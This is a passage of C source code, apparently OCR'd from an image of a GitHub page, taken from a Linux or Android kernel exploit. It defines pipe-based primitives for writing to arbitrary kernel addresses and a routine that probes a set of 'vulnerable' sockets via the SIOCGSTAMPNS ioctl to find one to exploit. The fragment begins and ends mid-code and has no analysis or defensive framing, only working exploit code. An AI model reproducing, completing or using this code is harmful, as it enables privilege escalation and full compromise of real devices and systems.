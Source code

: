 ```
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], kernel_addr, 8))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int kernel_write4(void* kernel_addr, unsigned int* value)
{
 
    int pipefd[2];
 
    if(-1 == pipe(pipefd))
    {
        printf("[*] create dual pipe fail.\n");
        return -1;
    }
 
 
    if(-1 == write(pipefd[1], value, 4))
    {
        perror("[*] write pipe fail.");
        return -1;
    }
 
    if(0 == read(pipefd[0], kernel_addr, 4))
    {
        perror("[*] read piple fail.");
        return -1;
    }
 
    return 0;
}


int search_exploitable_socket(int* index, void** payload)
{
    struct    timespec time;
    uint64_t  value;
    void*     page     =  NULL;
    int       j        =  0;
    int       exp_sock = -1;
    int       got      =  0;

    *payload  = NULL;
    do
    {
        exp_sock = vultrig_socks[*index];
        memset(&time, 0, sizeof(time));
        ioctl(exp_sock, SIOCGSTAMPNS, &time);
        /*
            ts.tv_sec = div_s64_rem(nsec, NSEC_PER_SEC, &rem);
            if (unlikely(rem < 0)) {
             ts.tv_sec--;
              rem += NSEC_PER_SEC;
            }
```